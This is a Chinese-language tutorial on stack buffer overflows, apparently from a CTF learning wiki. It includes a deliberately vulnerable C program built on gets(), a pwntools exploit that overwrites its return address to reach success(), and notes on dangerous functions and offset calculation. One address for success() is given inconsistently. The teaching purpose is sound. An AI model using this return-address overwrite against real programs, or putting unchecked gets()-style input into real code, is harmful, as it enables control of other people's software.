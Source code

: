 # 栈溢出原理

# 介绍

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞(比如说，还有向堆中写，向bss段写)。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

- 程序必须向栈上写入数据。
- 写入的数据大小没有被良好地控制。

# 基本示例

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，**当然需要确保这个地址的代码可以执行**。下面，我们举一个简单的例子：

```C
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

这个程序的主要目的读取一个字符串，并将其输出。**我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

```shell
➜  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
stack_example.c: In function ‘vulnerable’:
stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(s);
   ^
/tmp/ccPU8rRA.o：在函数‘vulnerable’中：
stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.
```

可以看出gets本身是一个危险函数。而它因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易可以导致栈溢出，

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，-m32指的是生成32位程序，`-fno-stack-protector` 指的是不开启堆栈保护，即不生成canary，这是为了更加方便地介绍栈溢出的基本利用方式；而且该程序并没有开启ASLR保护。之后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

该字符串距离ebp的长度为0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success_addr,即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

```python
#coding=utf8
from pwn import *
# 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
# 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
# 向程序发送字符串
sh.sendline(payload)
# 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行success函数。

# 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

## 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

- 输入
  - gets，直接读取一行，忽略'\x00'
  - scanf
  - vscanf
- 输出
  - sprintf
- 字符串
  - strcpy，字符串复制，遇到'\x00'停止
  - strcat，字符串拼接，遇到'\x00'停止
  - bcopy

## 确定填充长度

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

- 相对于栈基地址的的索引
- 相对应栈顶指针的索引
- 直接地址索引

其中相对于栈基地址的索引，可以直接通过查看EBP相对偏移获得；相对于栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种问题。通过绝对地址索引的，就相当于直接给定了地址。一般来说，我们会有如下的覆盖需求

- **覆盖函数返回地址**，这时候就是直接看EBP即可。
- **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
- **覆盖bss段某个变量的内容**。
- 等等

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。

**参考阅读**

[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

http://bobao.360.cn/learning/detail/3694.html


